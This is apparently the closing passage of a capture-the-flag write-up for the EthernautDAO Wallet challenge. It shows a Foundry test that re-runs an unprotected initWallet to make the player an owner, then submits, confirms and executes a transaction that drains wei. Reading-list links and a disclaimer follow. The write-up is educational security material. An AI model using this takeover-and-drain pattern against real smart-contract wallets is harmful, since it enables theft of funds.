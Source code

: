 ```solidity
        (bool success, ) = address(wallet).call(abi.encodeWithSignature("initWallet(address[],uint256)", owners, 1));

        assertEq(success, true);
        assertEq(wallet.numConfirmationsRequired(), 1);
        assertEq(wallet.owners(3), player);

        // Now I'm one of the owners and because numConfirmationsRequired = 1 I can execute tx
        // Let's create a transaction.
        (success, ) = address(wallet).call(
            abi.encodeWithSignature("submitTransaction(address,uint256,bytes)", player, 1, "")
        );
        assertEq(success, true);

        // Confirm the transaction we just created
        // At the moment of the creation of our transaction the transaction array was empty
        // So our txIndex is 0
        uint256 txIndex = 0;
        (success, ) = address(wallet).call(abi.encodeWithSignature("confirmTransaction(uint256)", txIndex));
        assertEq(success, true);

        // Execute the transaction
        uint256 playerBalanceBefore = player.balance;
        (success, ) = address(wallet).call(abi.encodeWithSignature("executeTransaction(uint256)", txIndex));
        assertEq(success, true);

        // Assert that we have received 1 wei from the Wallet contract
        assertEq(playerBalanceBefore + 1, player.balance);

        vm.stopPrank();
    }
}
```

Here is the command I have used to run the test: `forge test --match-contract WalletTest --fork-url <your_rpc_url> --fork-block-number 7178864 -vv`

Just remember to replace `<your_rpc_url>` with the RPC URL you got from Alchermy or Infura.

You can read the full solution of the challenge, opening [Wallet.t.sol](https://github.com/StErMi/ethernautdao-ctf/blob/main/test/Wallet.t.sol)

## Further reading

- [Solidity Docs: fallback function](https://docs.soliditylang.org/en/latest/contracts.html#fallback-function)
- [solidity-by-example: fallback function](https://solidity-by-example.org/fallback)
- [Solidity Docs: Delegatecall / Callcode and Libraries](https://docs.soliditylang.org/en/latest/introduction-to-smart-contracts.html#delegatecall-callcode-and-libraries)
- [SWC-112: Delegatecall to Untrusted Callee](https://swcregistry.io/docs/SWC-112)
- [Sigma Prime, Solidity Security: Comprehensive list of known attack vectors and common anti-patterns: delegatecall](https://blog.sigmaprime.io/solidity-security.html#delegatecall)
- [OpenZeppelin Proxy](https://docs.openzeppelin.com/upgrades-plugins/1.x/proxies)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

I **do not give any warranties** and **will not be liable for any loss** incurred through any use of this codebase.

**DO NOT USE IN PRODUCTION**.
